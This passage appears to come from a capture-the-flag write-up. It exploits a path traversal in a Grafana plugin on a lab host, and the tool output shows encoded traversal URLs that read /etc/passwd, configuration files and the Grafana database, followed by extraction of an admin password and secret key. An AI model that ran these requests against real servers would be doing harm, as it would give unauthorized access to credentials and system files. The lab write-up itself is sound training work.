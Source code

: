 ```shell

[i] File "/conf/defaults.ini" found in server.
http://10.10.11.183:3000/public/plugins/alertlist/..%2f..%2f..%2f..%2f..%2fconf/defaults.ini
[*] File saved in "./http_10_10_11_183_3000/defaults.ini".

[i] File "/etc/grafana/grafana.ini" found in server.
http://10.10.11.183:3000/public/plugins/alertlist/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/grafana/grafana.ini
[*] File saved in "./http_10_10_11_183_3000/grafana.ini".

[i] File "/etc/passwd" found in server.
http://10.10.11.183:3000/public/plugins/alertlist/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd
[*] File saved in "./http_10_10_11_183_3000/passwd".

[i] File "/var/lib/grafana/grafana.db" found in server.
http://10.10.11.183:3000/public/plugins/alertlist/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fvar/lib/grafana/grafana.db
[*] File saved in "./http_10_10_11_183_3000/grafana.db".

[i] File "/proc/self/cmdline" found in server.
http://10.10.11.183:3000/public/plugins/alertlist/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fproc/self/cmdline
[*] File saved in "./http_10_10_11_183_3000/cmdline".

? Do you want to try to extract the passwords from the data source?  Yes

[i] Secret Key: SW2YcwTIb9zpOOhoPsMm

[*] Bye Bye!
```

Now by looking at the files we find a couple of passwords, First the login credentials for *Grafana*


```shell
$ cat grafana.ini| grep -E 'admin_password|admin_user'

admin_user = admin
admin_password = messageInABottle685427
```

This seems to be useless however, we have more files to look at. By searching inside the database we found the credentials for the MySQL database.

```shell
$ sqlite3 grafana.db
SQLite version 3.40.1 2022-12-28 14:03:47
Enter ".help" for usage hints.
sqlite> .tables
alert                       login_attempt
alert_configuration         migration_log
alert_instance              ngalert_configuration
alert_notification          org
alert_notification_state    org_user
alert_rule                  playlist
alert_rule_tag              playlist_item
alert_rule_version          plugin_setting
annotation                  preferences
annotation_tag              quota
api_key                     server_lock
cache_data                  session
dashboard                   short_url
dashboard_acl               star
dashboard_provisioning      tag
```